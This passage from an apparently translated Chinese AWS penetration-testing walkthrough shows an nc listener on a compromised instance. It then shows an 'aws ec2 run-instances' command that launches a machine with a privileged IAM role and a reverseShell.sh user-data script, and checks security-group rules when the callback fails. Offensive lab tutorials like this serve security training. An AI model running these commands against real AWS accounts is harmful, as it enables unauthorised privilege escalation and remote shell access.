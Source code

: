 让我们用

```
nc -lkvp 8081
```

![](img/a0fafbc87529322046d0dafe6474ec2c.png)

侦听器在我们最初受损的实例上准备就绪

# 创建实例

让我们尝试用 run-instances 创建实例(image-id 对应于一个 ubuntu 14.04 映像):

```
aws --profile data2 ec2 run-instances --image-id ami-d05e75b8 --instance-type t1.micro --iam-instance-profile Name=danger-role --user-data file://reverseShell.sh
```

![](img/9aa8b2274b2b68a420c5094d32830000.png)

图像已创建！这是个好消息。然而，连接没有到达。可能是网络问题？仔细检查命令后，我们意识到我们没有指定任何安全组。我们只是得到一个默认的分配。让我们看看它有哪些规则；我们可以这样做

```
aws --profile PROFILE ec2 describe-security-groups | jq -r '.SecurityGroups[] | select(.GroupId | contains("sg-f73b339e"))'
```
